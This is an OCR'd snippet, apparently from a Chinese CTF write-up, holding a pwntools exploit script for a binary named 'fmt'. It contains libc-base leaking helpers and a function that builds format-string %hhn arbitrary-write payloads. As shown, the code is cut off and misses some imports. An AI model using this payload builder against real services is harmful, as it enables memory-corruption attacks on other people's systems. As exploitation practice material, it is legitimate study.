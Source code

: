payload如下
```python
from pwn import *


is_local=1
if is_local:
    io=process("/home/pwn/workspace/test/fmt")
else:
    #io=remote("127.0.0.1",1236)
    io=remote("10.10.175.100",33225)

elf=ELF("/home/pwn/workspace/test/fmt")
libc=ELF("/home/pwn/workspace/test/lib/libc.so.6")

def getLibcBase(name:string):
    target_addr=u64(io.recv(6).ljust(8, b'\x00'))
    std_addr=libc.symbols[name.encode()]
    return target_addr-std_addr
def hexlog(number:int):
    print(hex(number))

def debug():
    gdb.attach(io)
    pause()

def fmt_str(offset:int,writeSize:int ,addr:int, target:int, bitmode:int):
    payload = b""
    offset_bais=0
    targets=[(target >> i * 8)&0xff for i in range(writeSize)]
    prev = 0
    fmtstrs=[]
    for word in targets:
        if prev < word:
            result = word - prev
            fmtstrs.append(b"%" + str(result).encode() + b"c")
            prev+=result
            prev=prev&0xff
        elif prev == word:
            result = 0
            fmtstrs.append(b"")
        else:
            result = 256 + word - prev
            fmtstrs.append(b"%" + str(result).encode() + b"c")
            prev+=result
            prev=prev&0xff

    while True:
        prev_len=0
        for i in range(writeSize):
            prev_len+=len(fmtstrs[i])
            prev_len+=len(b"%" + str(offset_bais+offset+i).encode() + b"$hhn")
        if(offset_bais==math.ceil(prev_len/8)):
            break
        offset_bais+=1
    for i in range(writeSize):
        payload+=fmtstrs[i]
        payload+=b"%" + str(offset_bais+offset+i).encode() + b"$hhn"
    payload+=(8-len(payload)%8)*b'a'    
    for i in range(writeSize):
        if bitmode==32:
            payload+=p32(addr+i)
        else:
            payload+=p64(addr+i)
```